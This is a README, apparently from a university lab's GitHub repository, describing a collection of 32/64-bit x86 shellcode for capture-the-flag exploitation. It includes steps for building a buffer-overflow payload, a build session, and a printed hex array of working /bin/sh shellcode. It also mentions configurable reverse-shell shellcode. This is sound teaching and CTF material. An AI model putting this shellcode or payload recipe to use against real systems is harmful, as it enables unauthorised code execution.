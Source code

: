 #Shellcode
This is a repository of Shellcode written by students in NYU-Polytechnic's [ISIS](http://www.isis.poly.edu/) lab. This repository came about as a need for trustworthy and reliable 32/64 bit Intel shellcode for CTF style exploitation.


This repository also contains the [`isis`](https://github.com/isislab/Shellcode/tree/master/isis) python library that has a handful of useful functions for exploitation. 





##Dependencies
In order to assemble and link(for testing) you will need to install:

- GCC
- GCC-multilib
- Nasm
- ia32-libs


To install:

`sudo apt-get install gcc gcc-multilib nasm ia32-libs`



##Usage
Each folder containing shellcode has at least two files. A .s file containg the assembly and a makefile. Typing make in a folder will assemble the shellcode as a raw binary file called `shellcode` and generate an ELF binary for testing called `testShellcode`. Shellcode that cannot be tested by running `testShellcode` alone will have other instructions. You can also test the shellcode by incorporating it into a working exploit. If you would like to hardcode the shellcode into your exploit instead of reading it from the shellcode file you can use the [shellcode as array python script.](https://github.com/isislab/Shellcode/blob/master/shellcodeAsArray/sa.py)


Run ‘make’ to compile the shellcode
Leverage the ‘shellcodeAsArray’ Python script to convert the shellcode to a hex array for use within a Python script
Place the hex array at the beginning of our payload
Pad the unused bytes with whatever we’d like (confirm the total bytes before the return address is 40)
Replace the 8 “B”s with the value of the “Location” address
# git clone https://github.com/isislab/Shellcode.git
Cloning into 'Shellcode'...
remote: Counting objects: 925, done.
remote: Total 925 (delta 0), reused 0 (delta 0), pack-reused 925
Receiving objects: 100% (925/925), 9.22 MiB | 12.31 MiB/s, done.
Resolving deltas: 100% (406/406), done.
# cd Shellcode/64BitLocalBinSh/
# make
nasm -f elf64 shell64.s -I ../include/ -I ../include/runtime/ -o linkme.o
nasm shell64.s -I ../include/ -I ../include/runtime/ -o shellcode
gcc linkme.o -o testShellcode 
# python ../shellcodeAsArray/sa.py shellcode 
shellcode = ( "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0"
"\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"
)




####Configuring
The behaviour of most shellcode instances can be configured with `%define`s. Here are some examples:

- Change the systemcall mechanism. [Mechanism Choice.](https://github.com/isislab/Shellcode/blob/master/32shellEmulator/makefile#L6)  [SYSTEM_CALL macro definition.](https://github.com/isislab/Shellcode/blob/master/include/syscall.s)
- Change the shell mechanism after socket or other operations. [Modular shellcode.](https://github.com/isislab/Shellcode/blob/master/32bitSocketReuse/shell32.s#L63) 
- Enable/disable debugging or other functionality. [Debug.](https://github.com/isislab/Shellcode/blob/master/32bitSocketReuse/shell32.s#L35) [Playfair](https://github.com/isislab/Shellcode/blob/master/32shellEmulator/shell32.s#L22)
- Configure IP/Port for connect back shelcode. [IP/htons macro.](https://github.com/isislab/Shellcode/blob/master/reverse32IPv4/r32.s#L10)

##Writing one-off/special purpose shellcode 
There are many macros in the [include](https://github.com/isislab/Shellcode/tree/master/include) folder that make writing new shellcode easier or modifying shellcode for different operating systems possible. 

##Contributing
Please feel free to contribute by submitting feature requests and bug reports to the issue tracker. Commit bits(for ISIS students only) and pull requests will be handled on a case by case basis.

